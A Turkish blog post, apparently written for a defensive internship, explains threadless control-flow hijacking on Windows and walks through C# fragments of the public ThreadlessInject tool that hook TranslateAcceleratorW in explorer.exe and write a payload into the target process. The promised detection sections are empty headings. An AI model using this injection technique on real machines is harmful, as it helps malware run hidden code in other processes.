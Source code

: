 ```yaml
---
layout: post
title: "Threadless Control Flow Hijacking Methods, Analysis and Detection"
categories: blue
---
```


Selam bugün staj kabulüm için araştırdığım ve kendisi için tespit mekanizmaları geliştirmeye çalışacağım control flow hijacking konusunu irdeleyeceğiz.

## İÇERİKLER
1. [Nedir bu hreadless Control Flow Hijacking ?](#nedir-bu-threadless-control-flow-hijacking-)
2. [Basit Bir Saldırı Örneği](#basit-bir-saldırı-örneğ)
3. [Basit Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları](#basit-saldırı-örneğine-karşı-statik-ve-dinamik-tespit-mekanizmaları)
4. [Karmaşık Bir Saldırı Örneği](#karmaşık-bir-saldırı-örneği)
5. [Karmaşık Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları](#basit-saldırı-örneğine-karşı-statik-ve-dinamik-tespit-mekanizmaları)
6. [Kapanış](#kapanış)


## Nedir bu Threadless Control Flow Hijacking ?

Türkçe "kontrol akışını ele geçirme" şeklinde çevirebiliriz. Anlaşıldığı üzere çook geniş bir saldırı spektrumundan bahsediyoruz bu saldırı türünün içine pwn tarafında bufferoverflow ile stack teki ret adresini ele geçirme yahut heapoverflow ile fonksiyon pointer larının üzerine shellcode adresimizi yazmak girebilir. Malware tarafında ise dümdüz hedef process in thread lerinden birini durdurup kendi ayarladığımız context i yükleyip shellcode umuzu çalıştırmak gibi fikirler bu saldırı vektörü altında toplanabilir. Kısaca programın olağan akışını durdurmak, zehirlemek yada değiştirmek gibi her türlü faaliyeti Control Flow Hijacking altında değerlendirebiliriz.

Bu yazıda ilgileneceğimiz control hijack metodları threadless yani process de ekstra bir thread açmadan, thread akışlarına müdahale etmeyen metodlar olacak. Mevcut bir thread in bir şekilde bizim istediğimiz şeyleri yapmasını sağlamalıyız. Bunun için kullanabileceğimiz taktikleri şu şekilde listeleyebiliriz:
 - İşlevi argümanları alıp başka bir fonksiyona call yada jmp ile gitmek olan bir fonksiyonun gitmeye çalıştığı adres i patch leyebiliriz
 - IAT daki api lere hook atabiliriz böylece mesela program dosya okumak için CreateFile api sini çağırmak istediğinde aslında bizim istediğimiz adresteki kodu çalıştırır
 - exception handler a hook atıp programın bir exception durumunda bizim istediğimiz adresteki kodu çalıştırmasını sağlayabiliriz
 - class sistemi kullanan bir dille derlenmişse program vtable lardaki fonksiyon adreslerini kendi çalıştırılmasını istediğimiz adresle değiştirebiliriz
 - process deki main module un kullandığı herhangi bir dll deki export edilen fonksiyon adreslerini zararlı kod adresi ile değiştirip mesela kullanıcının user32 deki MessageBox api sini çağırdığı zaman dll in bizim istediğimiz adresi çalıştırmasını sağlayabiliriz
 - bir fonksiyon pointer ı bulup adresini çalıştırılmasını istediğimiz shellcode adresi ile değiştirebiliriz

Şimdilik derleyebildiğim yöntemler bu şekilde. Kernel taraflı yöntemlerin de olduğuna eminim ama bunlar konusunda henüz bir bilgim yok.
Dilerseniz bu yöntemi kullanan ilk saldırı örneğimize geçelim ve yöntemi daha yakından tanıyalım.

## Basit Bir Saldırı Örneği

Basit saldırı örneği için [ThreadlessInject](https://github.com/CCob/ThreadlessInject/tree/master) deki injection kodunu kullanıcaz.
Burdaki fikir hedef process deki main module(exe) un çalıştıracağını bildiğimiz bir fonksiyonu gözümüze kestirip onu hook lamak. Bu ister main module deki bir fonksiyon olsun ister onun kullandığı dll lerdeki. Hook lıcaz.
Her açılışta exe nin yada diğer dll lerin process in virtual address space inde nerelerde olduğunu gözlememek istemediğimiz için (yada bunun malware yazarları için hiç pratik ve kolay olmadığı için) pdb file ına erişebildiğimiz yani sembollerine yani spesifik fonksiyonlarının hangi offsetlere veya rva lara yüklendiğini bildiğimiz dll veya exe lerin fonksiyonlarını hook lamak daha mantıklı ve çok daha kolay, daha da kolayı export edilmiş fonksiyonlarını hook lamak bunun için de windows api lerinden yararlanıcaz.
Bunun için öncelikle fonksiyonunu hook lamak istediğimiz module ün handle ını `GetModuleHandle` api si ile alıp o module un bu handle aracılığı ile hangi export edilmiş fonksiyonuna erişmek istiyorsak `GetProcAddress` api sine fonksiyon ismini verip export edilen fonksiyonun adresini cebe atıyoruz.
```csharp
string dll = "user32.dll";
string export = "TranslateAcceleratorW";
var hModule = GetModuleHandle(dll);
if (hModule == IntPtr.Zero)
    hModule = LoadLibrary(dll);
var exportAddress = GetProcAddress(hModule, export);
```
Burda ince bir ayrıntı var ondan bahsetmeden geçmeyelim. `GetModuleHandle` api sinin module handle ını bulamadığı durumda ki bu o anki process imizde bu module yok demek, o module ü `LoadLibrary` api si ile process imize yüklüyoruz. Bakın kafa karışıklığı olmasın burda yükleme yaptığımız process bizim process imiz yani malware process i hedef process değil. Hedef process de yüklü olan bir module malware process de yok ama bize o module deki fonksiyonun adres lazım e napıyoruz. Module u kendi process imize yükleyip bu sayede adresi elde ediyoruz. Windows un knownDLL listesinden (kernelbase.dll, kernel32.dll, user32.dll, ntdll.dll vs.) bir dll i hedef leyeceğiz çünkü bu listedeki dll ler genellikle her process de aynı base address e yükleniyor bu yüzden malware process imizdeki exportAddress %99 diğer process lerde de aynı fonksiyonu barındırıyor olacak. Eğer bir windows dll ine değil herhangi bir dll e hook atmamız gerekseydi adresi tespit etmek için hedef process de biraz daha iş görmemiz gerekecekti neyseki şuanki senaryoda kendi process imizden(malware process) hedef process deki hook adresimizi kolayca hesaplayabiliyoruz.

var status = OpenProcess(pids[i], out var hProcess);

```csharp
var status = OpenProcess(hedef_process_id, out var hProcess);
```
Hedef process memory sinde dolanabilmek için hedef process in handle ını alıyoruz.

```csharp
var loaderAddress = FindMemoryHole(
    hProcess,
    (ulong)exportAddress,
    ShellcodeLoader.Length + shellcode.Length);
```
Bu fonksiyonun amacı şu:
Hook attığımız adrese bir relative call instruction koyucaz bu call daha önceden allocate ettiğimiz bir bellek bölgesine götürücek bizi ve shellcode umuzda burda olacak neden shellcode u direkt hook attığımız adrese koymuyoruz diye soracak olursan sebebi hook attığımız adresteki fonksiyonun uzunluğu shellcode umuzdan daha küçük ise shellcode execute veya write iznimizin olmadığı bir bölgeye taşabilir buda yazma veya çalıştırma sırasında hata alacağımız anlamına gelir o yüzden hook atma prosüdürü hep bir relative jmp veya call ile başlar sonra trampoline fonksiyonu dediğimiz bir yönlendirici ile devam eder bu projede yazar trampoline fonksiyonu kullanmamış original byte ları hook fonksiyonunda düzeltmiş ve hook fonksiyonun sonunda hook attığımız adrese dönüşü sağlamış, tercih meselesi napcan.
Neyse amacı anlatmaya devam edeyim peki bu `FindMemoryHole` ne işe yarıyor? relative call ile gidebileceğimiz bir aralıkta bir bölgeyi allocate etmeye çalışıyor hudutlarımızı biliyoruz ve çalışıyoruz hesaaabııı.

```csharp
var originalBytes = Marshal.ReadInt64(exportAddress);// originalBytes = *exportAddress şeklinde düşünebilirsiniz burdaki işlemi
GenerateHook(originalBytes);
```
burda hook fonksiyonunun exportAddress deki instruction ları çalıştıktan sonra tekrar düzeltmesi için hardcoded yazılan hook fonksiyonunun içindeki placeholder byte ları exportAddress deki byte lar ile değiştiriyoruz daha önce stub yazmış olanlar olayı anladı. Anlamayanlarda projedeki `GenerateHook` fonksiyonuna şöyle bir bakınca anlayacaktır ne demek istediğimi konudan çok sapmamak için hook fonksiyonun iç mekaniğine çok girmemeyeyim diye düşündüm.

```csharp
ProtectVirtualMemory(
    hProcess,
    exportAddress,
    8,
    MemoryProtection.ExecuteReadWrite,
    out var oldProtect);

var relativeLoaderAddress = (int)(loaderAddress - ((ulong)exportAddress + 5));
var callOpCode = new byte[] { 0xe8, 0, 0, 0, 0 };

using var ms = new MemoryStream(callOpCode);
using var br = new BinaryWriter(ms);
br.Seek(1, SeekOrigin.Begin);
br.Write(relativeLoaderAddress);

status = WriteVirtualMemory(
    hProcess,
    exportAddress,
    callOpCode,
    out var bytesWritten);
```
Bu kısımda exportAddress e hook fonksiyonuna zıplayan relative call instruction ını yazıyoruz. Yukarda bahsettiğim gibi hook fonksiyonuna aslında burda olan byte ları yerleştirdiğimiz için bu yaramazlığımızı düzeltip programın hiçbir şey olmamış gibi çalışmaya devam etmesini sağlayabilecez.

```csharp
status = ProtectVirtualMemory(
    hProcess,
    (IntPtr)loaderAddress,
    (uint)payload.Length,
    MemoryProtection.ReadWrite,
    out oldProtect);

status = WriteVirtualMemory(
    hProcess,
    (IntPtr)loaderAddress,
    payload,
    out bytesWritten);

status = ProtectVirtualMemory(
    hProcess,
    (IntPtr)loaderAddress,
    (uint)payload.Length,
    oldProtect,
    out _);
```
Bu işlemlerle önce hook fonksiyonumuza tahsis ettiğimiz adrese(loaderAddress diye geçiyor kodda)(`FindMemoryHole` fonksiyonu ile allocate ettiğimiz adres) hook fonksiyonumuzu yazıyoruz.

explorer.exe `TranslateAcceleratorW` api sini neredeyse her saniye çağırıyor o yüzden onu hook lamak istedim. Görelim.
<video width="640" height="360" controls>
  <source src="/control-flow-hijack-basic-poc.mkv" type="video/mp4">
  Tarayıcınız video etiketini desteklemiyor.
</video>


## Basit Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları

## Karmaşık Bir Saldırı Örneği

## Karmaşık Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları

## Kapanış
